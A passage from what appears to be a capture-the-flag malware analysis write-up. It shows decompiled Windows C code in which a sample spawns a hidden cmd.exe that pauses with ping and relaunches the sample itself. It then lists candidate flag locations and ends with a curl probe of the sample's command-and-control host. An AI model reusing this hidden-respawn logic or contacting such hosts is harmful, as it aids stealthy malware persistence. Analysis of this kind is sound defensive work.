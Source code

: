 ```c
    GetModuleFileNameW(NULL, selfPath, ARRAYSIZE(selfPath));

    WCHAR   cmdBuf[0x208];
    sub_1400011A0(cmdBuf,
        L"cmd.exe /C ping 127.0.0.1 -n 10 > Nul & \"%ls\"", selfPath);

    /* -----------------------------------------------------------------
      13.  Spawn hidden child
       ----------------------------------------------------------------- */
    STARTUPINFOW         si = { sizeof(si) };
    PROCESS_INFORMATION  pi = {0};

    CreateProcessW(NULL,          // application
                   cmdBuf, NULL, NULL,
                   FALSE,         // inherit handles
                   CREATE_NO_WINDOW,  // dwCreationFlags
                   NULL, NULL,
                   &si, &pi);

    CloseHandle(pi.hThread);
    CloseHandle(pi.hProcess);

    /* -----------------------------------------------------------------
      14.  Graceful exit
       ----------------------------------------------------------------- */
    return 0;


/* -----------------------------------------------------------------------
   Common failure exits
   ----------------------------------------------------------------------- */
fail_net:
    WSACleanup();
    return 1;
}
```

Ok, now that we know all of this — **where is the challenge flag?!?**

It could be:

- One of the **hardcoded markers** (`"z11gj1"`, `"533_11s4"`)
    
- Hidden inside the **encrypted resource (blob B)**
    
- The expected **hostname** after XOR (used as a key)
    
- Or even embedded in the **.NET payload** (blob A + blob B)
    

---

Let’s start by exclusion:

### ✅ The remote C2 doesn’t respond — not usable:
```bash
C:\Users\XXX>curl -v http://utube.online:31337/
* Could not resolve host: utube.online
* shutting down connection #0
curl: (6) Could not resolve host: utube.online
```

